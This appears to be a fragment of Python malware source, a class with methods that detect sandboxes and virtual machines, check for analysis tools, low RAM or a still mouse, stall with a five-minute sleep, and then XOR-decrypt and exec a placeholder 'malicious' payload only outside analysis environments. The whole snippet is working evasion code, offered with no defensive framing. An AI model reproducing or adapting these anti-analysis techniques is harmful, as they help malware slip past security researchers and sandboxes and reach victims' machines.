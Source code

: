 ```python
    
    def check_sandbox(self):
        # Check for virtualization
        if self.is_virtual_machine():
            return True
            
        # Check for analysis processes
        running_processes = [p.name().lower() for p in psutil.process_iter()]
        for proc in self.sandbox_processes + self.analysis_tools:
            if proc.lower() in running_processes:
                return True
                
        # Check system resources
        if psutil.virtual_memory().total < 2 * 1024 * 1024 * 1024:  # Less than 2GB RAM
            return True
            
        # Check for mouse movement (human activity)
        import tkinter as tk
        root = tk.Tk()
        old_pos = root.winfo_pointerxy()
        time.sleep(5)
        new_pos = root.winfo_pointerxy()
        if old_pos == new_pos:
            return True
            
        return False
    
    def is_virtual_machine(self):
        # Check registry for VM artifacts
        try:
            import winreg
            key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, 
                               r"SYSTEM\CurrentControlSet\Services\Disk\Enum")
            value, _ = winreg.QueryValueEx(key, "0")
            vm_indicators = ['vmware', 'vbox', 'virtual', 'qemu']
            for indicator in vm_indicators:
                if indicator.lower() in value.lower():
                    return True
        except:
            pass
        
        return False
    
    def sleep_evasion(self):
        # Extended sleep to evade sandbox timeout
        start_time = time.time()
        while time.time() - start_time < 300:  # 5 minutes
            time.sleep(1)
    
    def decrypt_payload(self):
        if not self.check_sandbox():
            # XOR decryption example
            encrypted_payload = b'\x1a\x2b\x3c\x4d'  # Encrypted malicious code
            key = b'\xaa'
            decrypted = bytes(a ^ key[0] for a in encrypted_payload)
            exec(decrypted.decode())
```
